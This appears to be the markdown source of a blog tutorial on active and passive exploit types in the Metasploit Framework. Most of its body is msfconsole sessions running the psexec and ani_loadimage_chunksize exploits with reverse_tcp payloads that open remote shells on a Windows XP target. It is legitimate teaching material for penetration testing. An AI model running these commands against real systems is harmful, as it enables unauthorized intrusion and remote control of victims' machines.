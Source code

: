 ```yaml
---
draft: false
title: Exploit Types in Metasploit Framework
date: 2017-05-13T12:34:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Within the Metasploit Framework, all exploit modules are grouped as active and passive.
url: /msf-exploit-types/
featured_image: /images/metasploit.jpg
weight: 60
translation_key: msf-exploit-types
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
linkTitle: Exploit Types
keywords:
  - exploit
---
```


Within the Metasploit Framework, all exploit modules are grouped as **active** and **passive**.

## Active Exploit

Active exploits will run on a specific target and continue to run until the process is completed. They stop running when they encounter any error.

For example, the Brute-force module runs until a shell command line is opened on the target computer and stops when it is finished. Since their processes can take a long time to complete, they can be sent to the background using the `-j` parameter.

In the example below, you can see that the ms08_067_netapi exploit is started and sent to the background.

```bash
msf exploit**(**ms08_067_netapi**)** > exploit -j
> Exploit running as background job.
msf exploit**(**ms08_067_netapi**)** >
```

## Active Exploit Example

In this example, a target computer (192.168.1.100) whose information was obtained through prior discovery is shown setting the necessary variables and starting to work. The psexec exploit and the reverse_tcp payload module are used to open a shell on the target computer.

```bash
msf > use exploit/windows/smb/psexec
msf exploit**(**psexec**)** > set RHOST 192.168.1.100
RHOST **=>** 192.168.1.100
msf exploit**(**psexec**)** > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=>** windows/shell/reverse_tcp
msf exploit**(**psexec**)** > set LHOST 192.168.1.5
LHOST **=>** 192.168.1.5
msf exploit**(**psexec**)** > set LPORT 4444
LPORT **=>** 4444
msf exploit**(**psexec**)** > set SMBUSER victim
SMBUSER **=>** victim
msf exploit**(**psexec**)** > set SMBPASS s3cr3t
SMBPASS **=>** s3cr3t
msf exploit**(**psexec**)** > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'victim'...
> Uploading payload...
> Created \hikmEeEM.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service **(**ciWyCVEp - "MXAVZsCqfRtZwScLdexnD"**)**...
> Closing service handle...
> Opening service...
> Starting the service...
>Removing the service...
> Closing service handle...
> Deleting \hikmEeEM.exe...
> Sending stage **(**240 bytes**)**
> Command shell session 1 opened **(**192.168.1.5:4444 -> 192.168.1.100:1073**)**

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Passive Exploit

Passive Exploits run passively on the local computer (our own computer) and remain listening. They wait for the target computer to somehow connect to the local computer.

Passive exploits almost always focus on clients such as Web browsers, FTP, etc. They can also be used in connections from files sent via e-mail. When a passive exploit runs, it starts waiting. When a user clicks on a link on the site or performs an action, that's when the passive exploit in the listening receives the signal and opens a **shell** on the target.

You can see the list of exploits running in the background and listening by giving the `-l` parameter to the `sessions` command. You can use the `-i` parameter to go to the desired `ID` numbered process from the list.

```bash
msf exploit**(**ani_loadimage_chunksize**)** > sessions -l

Active sessions
**================**

Id Description Tunnel
-- ----------- ------
1 Meterpreter 192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit**(**ani_loadimage_chunksize**)** > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## Passive Exploit Example

In the example below, a user is expected to enter a Web page using the loadimage_chunksize exploit and reverse_tcp payload. The `LHOST` variable indicates the IP address of the computer that will listen locally, and the `LPORT` indicates the port number that will listen on the local computer.

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit**(**ani_loadimage_chunksize**)** > set URIPATH /
URIPATH **=>** /
msf exploit**(**ani_loadimage_chunksize**)** > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=>** windows/shell/reverse_tcp
msf exploit**(**ani_loadimage_chunksize**)** > set LHOST 192.168.1.5
LHOST **=>** 192.168.1.5
msf exploit**(**ani_loadimage_chunksize**)** > set LPORT 4444
LPORT **=>** 4444
msf exploit**(**ani_loadimage_chunksize**)** > exploit
> Exploit running as background job.

> Started reverse handler
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
> Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
> Server started.
msf exploit**(**ani_loadimage_chunksize**)** >
> Attempting to exploit ani_loadimage_chunksize
> Sending HTML page to 192.168.1.100:1077...
> Attempting to exploit ani_loadimage_chunksize
> Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow **(**HTTP**)** to 192.168.1.100:1077...
> Sending stage **(**240 bytes**)**
> Command shell session 2 opened **(**192.168.1.5:4444 -> 192.168.1.100:1078**)**

msf exploit**(**ani_loadimage_chunksize**)** > sessions -i 2
> Starting interaction with 2...

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

You can send us other topics you want to be explained.

## Video Anlatım

{{< youtube liQEKnvzhQE >}}
